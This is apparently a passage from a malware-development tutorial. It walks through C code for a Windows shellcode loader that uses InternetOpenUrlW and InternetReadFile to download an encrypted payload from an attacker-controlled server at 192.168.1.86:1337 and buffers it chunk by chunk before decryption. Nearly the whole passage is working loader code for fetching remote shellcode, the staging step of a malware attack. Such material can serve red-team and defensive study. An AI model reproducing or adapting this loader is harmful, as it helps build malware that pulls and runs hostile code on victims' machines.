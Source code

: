 Once we have the handle to the internet session, open the handle to the shellcode specified by HTTP URL.       
```c
    hInternetShellcode = InternetOpenUrlW(hInternet, L"http://192.168.1.86:1337/encrypted_payload.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
    if (hInternetShellcode == NULL) {
        printf("InternetOpenUrlW Failed with error code: %d \n", GetLastError());
        return -1;
    }
```

Before calling the **InternetReadFile** function, we need to allocate a fixed amount of memory. Initially, this is set to 1024 bytes. However, since the payload size may vary and is not always exactly 1024 bytes, failing to allocate the full payload could cause the decryption process to crash if any block is missing.     
        
```c
pTmpBuffer = (PBYTE)LocalAlloc(LPTR, 1024);
```

The solution to the above problem is to create a loop during the **InternetOpenUrlW** function. The loop reads 1024 bytes using a variable **pTmpBuffer** from the server during each iteration and appends the data into a variable **pBytes**. At the end of the loop it checks whether the size of **pTmpBuffer** is less than 1024, if the size is less than 1024 then it means it has come to the last chunk of the payload and breaks out of the loop.       
```c
    // Allocate 1024 bytes for temporary storage
    pTmpBuffer = (PBYTE)LocalAlloc(LPTR, 1024);

    while (TRUE) {
        // Read up to 1024 bytes into the temporary buffer
        BOOL bReadFile = InternetReadFile(hInternetShellcode, pTmpBuffer, 1024, &dwBytesRead);
        if (bReadFile == FALSE) {
            printf("InternetReadFile failed with error: %d \n", GetLastError());
            InternetCloseHandle(hInternet);
            return -1;
        }

        // Accumulate the total number of bytes read so far
        sSize = sSize + dwBytesRead;

        // If it's the first read, allocate memory equal to the number of bytes read
        if (pBytes == NULL) {
            pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
        }

        else {
            // Resize the buffer to match the updated total size
            pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);
        }

        // Copy the contents of the temporary buffer to the correct position in the main buffer
        PBYTE pTarget = pBytes + (sSize - dwBytesRead);
        memcpy(pTarget, pTmpBuffer, dwBytesRead);

        ZeroMemory(pTmpBuffer, dwBytesRead);

        // If fewer than 1024 bytes were read, the end of the file has been reached
        if (dwBytesRead < 1024) {
            break;
        }
    }
```
